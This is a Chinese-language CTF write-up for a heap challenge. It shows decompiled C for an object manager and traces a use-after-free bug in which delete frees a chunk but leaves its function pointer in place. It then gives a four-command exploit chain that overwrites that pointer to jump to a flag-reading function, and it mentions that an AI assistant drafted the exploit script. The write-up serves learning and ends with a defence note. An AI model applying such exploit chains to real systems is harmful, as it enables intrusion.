


### 系统层漏洞利用与逆向分析-安全补丁对比分析-G3

#### 早期版本分析

我分析了主程序并做了一些标记：

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  __int64 v4; // [rsp+0h] [rbp-90h] BYREF
  unsigned int v5; // [rsp+Ch] [rbp-84h] BYREF
  char s1[128]; // [rsp+10h] [rbp-80h] BYREF

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("obj-mgr v1 -- commands: create <id>, delete <id>, alloc_data <id> <hex>, use <id>, quit");
  while ( fgets(s1, 128, stdin) )               // 输入
  {
    if ( (unsigned int)__isoc99_sscanf(s1, "create %d", &v5) == 1 )// 搁着识别命令呢！
    {
      create(v5);
    }
    else if ( (unsigned int)__isoc99_sscanf(s1, "delete %d", &v5) == 1 )// 嗯对，把命令中的字段提取出来呢！放到v4v5中，那他们会不会溢出
    {
      delete(v5);
    }
    else if ( (unsigned int)__isoc99_sscanf(s1, "alloc_data %d %llx", &v5, &v4) == 2 )
    {
      alloc_data(v5, v4);
    }
    else if ( (unsigned int)__isoc99_sscanf(s1, "use %d", &v5) == 1 )
    {
      use(v5);
    }
    else
    {
      if ( !strncmp(s1, "quit", 4uLL) )
        return 0LL;
      puts("unknown command");
    }
  }
  return 0LL;
}
```

然后分析了实现各命令的函数：

```c
int __fastcall use(unsigned int a1)
{
  if ( a1 < 8 )
    return (**((__int64 (***)(void))&obj_func_heap + (int)a1))();
  else
    return puts("bad id");
}

int __fastcall create(signed int a1)
{
  if ( (unsigned int)a1 >= 8 )
    return puts("bad id");
  *((_QWORD *)&obj_func_heap + a1) = malloc(8uLL);//
  **((_QWORD **)&obj_func_heap + a1) = defalute_func;// 写入函数指针，硬编码功能为报告obj情况，use是调用函数
  is_exist[a1] = 1;
  return printf("created obj %d\n", (unsigned int)a1);
}

int __fastcall alloc_data(unsigned int a1, __int64 a2)
{
  if ( a1 >= 8 )
    return puts("bad id");
  *((_QWORD *)&data_heap + (int)a1) = malloc(8uLL);// a1是作为偏移存在的，这里说明一个id的最大长度也就是8字节
  **((_QWORD **)&data_heap + (int)a1) = a2;     // 写入内容
  return printf("alloc_data %d = 0x%llx\n", a1, a2);
}
```

既然有函数指针调用，那就舒服了，如果能写非硬编码的函数指针，就很舒服了！

#### 查看地址，`data_heap`到`func_heap`是相邻的：`func_heap`地址`0x4040C0`，`data_heap`地址`0x404100`，相差64字节（`data_heap`大小也是64字节）。

——呃往下看，其实上面存在一个代码阅读疏忽，其实所谓`heap`是一个指针表而已。

#### 思路推翻

`IDA`又没有识别到关于`flag`读取的函数。但是字符串视图中能找到`/flag`硬编码的路径，按`X`交叉搜索，最后还是找到了！



地址`0x4012BA`，就是我们想要跳转的地址。

回到上述函数指针，让我们看看汇编中函数指针是怎么样的吧：

```
mov eax, [rbp+var_4]
cdqe
lea rdx, ds:0[rax*8]
lea rax, obj_id_heap
mov rax, [rdx+rax] ;rdx+rax是对应id函数槽位的的地址
mov rax, [rax]
call rax
```

意思是：取`func_heap`槽位中的内容作为指针，用该指针再解引用一次获取其指向的内容。其内容作为地址去`call`。

**那这样又不对了！因为`func_heap`中本身不存函数指针，而是存函数指针的指针，我们覆写它没有用。而又找不到存真正函数指针的位置（malloc动态生成）。**

**其实这个思路不应该成立！因为其实对于`data_heap`本来也没有溢出的漏洞！**

#### V2版本分析

`v2`版本的修改很少，主要在一个数组的使用，我标记为`is_exist`。它是一个8字节的数组，用于记录每个id是否被占用。

注意看早期版本的`delete`函数中，存在一个逻辑错误！

```c
int __fastcall delete(unsigned int a1)
{
  if ( a1 > 7 || !is_exist[a1] )
    return puts("bad id");
  free(*((void **)&func_heap + (int)a1));
  return printf("deleted obj %d\n", a1);
}
```

- 它释放了函数表指向的内容，但是没有把`is_exist`重置；

- 并且，`func_heap[id]`这条指针指向的内存虽然被`free`了，但是它本身（这条指针）没有从`func_heap`中清除掉；

- 最后，对于`data_heap`，完全没有做清空（*这个在`v2`中也没有修改，内存泄露风险！*）。

我们关注`is_exist`这个点，发现在早期版本中，`use`、`create`、`alloc_data`都是完全不管这个id是否存在的。——但这似乎只是功能逻辑问题？

**我只好请教AI了，把我的这篇文章丢给AI给我一点提示！**

#### 利用链路

`dsh`切换只读模式，附上文件路径，并提示：
"这是我做CTF题目遇到的难题的WP，我写了一半，现在没思路了，请你根据这篇文章的记录，给点提示。有什么需要确定的和我说，只读这一篇，不能乱看其他东西。"



**这下看懂了，`delete`把`func_heap[id]`指向的`chunk`给free了，但是`func_heap[id]`还指着这一块；此时`alloc_data`再申请一块`chunk`，分配器就会把之前的这一块分给`data_heap[id]`，关键是它是可写的！**

**这相当于，我们可写`func_heap`指向的内存，就达到利用指定函数指针的目的了。**

下面给出利用链：

```
create 0                # 初始化func_heap[0]
delete 0                # 释放func_heap[0]指向的内存（func_heap[0]还指着）
alloc_data 0 004012ba   # 抢回这块内存，id是随意的，不一定是0
use 0                   # 调用func_heap[0]
```

虽然这利用链AI也一并给了，但是思路咱们看懂了就行！

接着让AI帮我们把脚本落地了！我说：

```
你按照这个思路，写一个exp脚本，名称exp.py，留出填写靶机IP和端口的位置，其他就按照利用链的四行命令发送，最后捕获flag。
flag格式为vmc{...}。
脚本中四步应当每一步都有回显，此外，脚本越简单越好。
```

实际测试时，发现回显是`no /flag`，说明我们的逻辑和脚本没问题，主要是目的地址错误了。

并非如此，测试发现是靶机错误了，重启靶机即可！

产物`exp/exp.py`，配置好靶机地址后，直接`python exp.py`即可。

（*这次AI用了`pwn`库，记得`pip install pwn`一下先*）

#### 总结与防御建议

这题的程序与内存有关，犯的错误概括来说是："内存生命周期没有控制完全"，如果这题把内存块free后，把`func_heap`中存的指针一并擦除，这题就打不通了。

防御建议：关注内存块生命周期
